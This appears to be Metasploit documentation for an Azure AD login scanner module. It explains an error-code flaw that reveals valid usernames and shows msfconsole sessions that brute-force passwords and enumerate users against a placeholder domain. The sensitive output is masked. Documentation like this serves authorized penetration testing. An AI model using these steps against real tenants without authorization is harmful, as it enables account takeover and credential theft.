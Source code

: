 ## Vulnerable Application

The Microsoft Azure AD service has a vulnerable endpoint that delivers an error-code based response
to specific authentication requests in XML. The endpoint, when passed the correct credentials,
will respond with a DesktopSsoToken that can be used to authenticate to Azure AD. When
the authentication is unsuccessful, the error code that is returned can be used to discover the
validity of usernames in the target tenant.
This module also reports credentials to the credentials database when they are discovered.

## Verification Steps


- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/http/azure_ad_login`
- [ ] `show info`
- [ ] `set USER_FILE USER_FILE`
- [ ] `set PASS_FILE PASS_FILE`
- [ ] `set DOMAIN example.com`
- [ ] `run`
- [ ] Check output for validity of your test username(s), and password(s)


## Options

### DOMAIN

The target tenant domain to use for the username checks.

### USERNAME

A specific username to verify.

### PASSWORD

A specific password to verify.

### USER_FILE

A file with users, one per line.

### PASS_FILE

A file with passwords, one per line.
    

## Scenarios
If a tenant's domain is known, you can use this module for username and password brute-forcing.

Specific target output replaced with *s so as not to disclose information
```msf6 > use auxiliary/scanner/http/azure_ad_login
msf6 auxiliary(scanner/http/azure_ad_login) > set USER_FILE /home/kali/users.txt
USER_FILE => /home/kali/users.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set PASS_FILE /home/kali/pass.txt
PASS_FILE => /home/kali/pass.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set DOMAIN example.com
DOMAIN => example.com
msf6 auxiliary(scanner/http/azure_ad_login) > run

msf6 auxiliary(scanner/http/azure_ad_login) > run

[-] example.com\wrong is not a valid user
[-] example.com\wrong is not a valid user
[-] example.com\wrong is not a valid user
[-] example.com\k0pak4 is not a valid user
[-] example.com\k0pak4 is not a valid user
[-] example.com\k0pak4 is not a valid user
[+] Password password is invalid but example.com\**** is valid!
[+] Password Password1! is invalid but example.com\**** is valid!
[+] Login example.com\****:****** is valid!
[+] Desktop SSO Token: *******************************************
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

If a tenant's domain is known, you can enumerate their usernames
    
```msf6 > use auxiliary/scanner/http/azure_ad_login
msf6 auxiliary(scanner/http/azure_ad_login) > set USER_FILE /home/kali/users.txt
USER_FILE => /home/kali/users.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/http/azure_ad_login) > set DOMAIN example.com
DOMAIN => example.com
msf6 auxiliary(scanner/http/azure_ad_login) > run

[-] example.com\wrong is not a valid user
[-] example.com\k0pak4 is not a valid user
[+] Password password is invalid but example.com\**** is valid!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

## Version and OS
Tested against current Azure AD tenants.

## References
- https://arstechnica.com/information-technology/2021/09/new-azure-active-directory-password-brute-forcing-flaw-has-no-fix/
- https://github.com/treebuilder/aad-sso-enum-brute-spray
